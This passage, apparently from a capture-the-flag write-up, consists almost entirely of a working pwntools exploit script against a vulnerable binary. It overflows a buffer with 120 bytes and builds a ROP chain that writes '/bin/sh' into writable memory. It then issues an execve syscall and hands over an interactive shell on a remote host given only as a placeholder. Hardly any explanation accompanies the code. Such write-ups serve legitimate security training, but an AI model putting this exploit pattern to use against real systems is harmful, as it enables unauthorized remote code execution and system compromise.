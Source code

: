 Let's setup our ROP chain

```py
payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdi) + p64(vmmap)
payload += p64(pop_rdx) + p64(0) 
payload += p64(pop_rsi) + p64(0)
```

### Final script
```py
from pwn import *

p = remote("IP", PORT)

# Gadgets
pop_rax = 0x4005af # pop rax ; ret
pop_rdi = 0x4006a6 # pop rdi ; ret
pop_rsi = 0x410003 # pop rsi ; ret
pop_rdx = 0x44b446 # pop rdx ; ret
syscall = 0x40127c # syscall


# address to move /bin/sh into writable memory
vmmap = 0x6b6000 # found from vmmap
movptr = 0x47f3c1 # mov qword ptr [rsi], rax ; ret

payload = b'A' * 120

# ROP chain to move /bin/sh
payload += p64(pop_rax) +  b'/bin/sh\x00'
payload += p64(pop_rsi) + p64(vmmap)
payload += p64(movptr)


# ROP (execve syscall)
# rax : 59 (0x3b)
# rdi : ptr to /bin/sh
# rdx : 0 
# rsi : 0

payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdi) + p64(vmmap)
payload += p64(pop_rdx) + p64(0) 
payload += p64(pop_rsi) + p64(0)

# syscall
payload += p64(syscall)

p.sendline(payload)
p.interactive()
```
